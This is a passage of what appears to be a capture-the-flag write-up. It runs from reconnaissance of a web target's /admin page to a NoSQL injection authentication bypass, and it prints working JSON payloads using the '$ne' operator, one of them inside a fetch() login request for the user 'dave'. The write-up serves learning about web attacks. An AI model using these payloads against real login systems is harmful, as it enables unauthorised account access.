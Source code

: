 There is a user called "dave". It's worth mentioning that he is probably using NoSQL:

<pre>"I decided to build it with a NoSQL database"</pre>

Nmap identified "robots.txt" so let's check that out:

<pre>User-Agent: *
Disallow: /admin</pre>

Let's check out /admin page:

![/admin](https://imgur.com/XPw4brO.png)

I checked out port 3000 but it seems it is the same web page.

Look at the source code for /admin:

<pre>    if(document.location.hash) {
      const div = document.createElement('div')
      div.innerText = decodeURIComponent(document.location.hash.substr(1));
      div.className = 'note';
      document.body.insertBefore(div, document.body.firstChild);
    }
    document.querySelector('form').onsubmit = (e) => {
      /*e.preventDefault();
      const username = document.querySelector('input[type=text]').value;
      const password = document.querySelector('input[type=password]').value;

      fetch('', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({username, password})
      }).then(() => {
        location.reload();
      })
      return false;*/
    }</pre>
    
There is mention of 'Content-Type': 'application/json' so we can prepare a noSQL payload. I found this Github repo:

[NoSQL Injection - Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Authentication Bypass:

<pre>in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}</pre>

I copied the "fetch" block of the commented code we found in the source code and replaced the "username,password" to the payload. This is what my payload looks like:

<pre>fetch('', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify(
        {"username":"dave", "password":{"$ne": ""}}
    )
}).then(() => {
    location.reload();
})</pre>
